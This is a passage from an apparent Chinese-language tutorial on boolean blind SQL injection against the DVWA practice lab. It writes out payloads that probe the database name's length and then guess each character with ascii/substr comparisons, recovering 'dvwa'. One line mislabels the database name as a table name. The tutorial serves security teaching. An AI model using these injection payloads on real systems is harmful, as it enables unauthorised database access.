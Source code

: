`1' and length(database())=2 #`

![]({{ site.url }}/images/sql-injection/blind1.png)

`1' and length(database())=3 #`

![]({{ site.url }}/images/sql-injection/blind1.png)

`1' and length(database())=4 #`

![]({{ site.url }}/images/sql-injection/blind0.png)

说明表名长度为 4。

接下来要猜解数据库名。我们知道，数据库名一定是由`ASCII码`组成的，所以在这个范围内使用二分法猜解。每次猜解一个字符。从第一个开始。

**背景知识**

`substring(string string,num start,num length)`返回参数 1 指定的字符串中参数 2 指定位置起参数 3 个字符。

`ascii(char)`返回字符的`ASCII码`。

输入`1' and ascii(substr(database(), 1, 1)) > ascii('a') #`，返回如下所示：

![]({{ site.url }}/images/sql-injection/blind0.png)

输入`1' and ascii(substr(database(), 1, 1)) < ascii('z') #`，返回如下所示：

![]({{ site.url }}/images/sql-injection/blind0.png)

输入`1' and ascii(substr(database(), 1, 1)) < ascii('z') #`，返回如下所示：

![]({{ site.url }}/images/sql-injection/blind0.png)

输入`1' and ascii(substr(database(), 1, 1)) < ascii('m') #`，返回如下所示：

![]({{ site.url }}/images/sql-injection/blind0.png)

输入`1' and ascii(substr(database(), 1, 1)) < ascii('g') #`，返回如下所示：

![]({{ site.url }}/images/sql-injection/blind0.png)

输入`1' and ascii(substr(database(), 1, 1)) < ascii('d') #`，返回如下所示：

![]({{ site.url }}/images/sql-injection/blind1.png)

输入`1' and ascii(substr(database(), 1, 1)) > ascii('d') #`，返回如下所示：

![]({{ site.url }}/images/sql-injection/blind1.png)

这说明数据库名第一个字符是`d`。利用同样方法，分别代入`substr(database(), 2, 1)`/`substr(database(), 3, 1)`/`substr(database(), 4, 1)`，最终得到数据库名为`dvwa`。

#### 基于布尔：猜解数据库中的表名

首先猜解数据库中表的数量。
